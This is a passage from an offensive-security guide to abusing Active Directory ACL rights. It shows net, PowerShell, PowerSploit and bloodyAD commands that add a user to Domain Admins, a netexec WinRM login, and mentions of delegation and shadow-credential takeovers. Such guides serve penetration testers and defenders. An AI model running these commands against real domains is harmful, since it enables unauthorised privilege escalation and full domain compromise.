 [[shadow-credentials.md]]

## **GenericAll Rights on Group**

This privilege allows an attacker to manipulate group memberships if they have `GenericAll` rights on a group like `Domain Admins`. After identifying the group's distinguished name with `Get-NetGroup`, the attacker can:

- **Add Themselves to the Domain Admins Group**: This can be done via direct commands or using modules like Active Directory or PowerSploit.

```bash
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

- From Linux you can also leverage BloodyAD to add yourself into arbitrary groups when you hold GenericAll/Write membership over them. If the target group is nested into “Remote Management Users”, you will immediately gain WinRM access on hosts honoring that group:

```bash
# Linux tooling example (BloodyAD) to add yourself to a target group
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p '<pass>' add groupMember "<Target Group>" <user>

# If the target group is member of "Remote Management Users", WinRM becomes available
netexec winrm <dc-fqdn> -u <user> -p '<pass>'
```

## **GenericAll / GenericWrite / Write on Computer/User**

Holding these privileges on a computer object or a user account allows for:

- **Kerberos Resource-based Constrained Delegation**: Enables taking over a computer object.
- **Shadow Credentials**: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials.

## **WriteProperty on Group**

If a user has `WriteProperty` rights on all objects for a specific group (e.g., `Domain Admins`), they can:

- **Add Themselves to the Domain Admins Group**: Achievable via combining `net user` and `Add-NetGroupUser` commands, this method allows privilege escalation within the domain.

```bash
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **Self (Self-Membership) on Group**

This privilege enables attackers to add themselves to specific groups, such as `Domain Admins`, through commands that manipulate group membership directly. Using the following command sequence allows for self-addition:
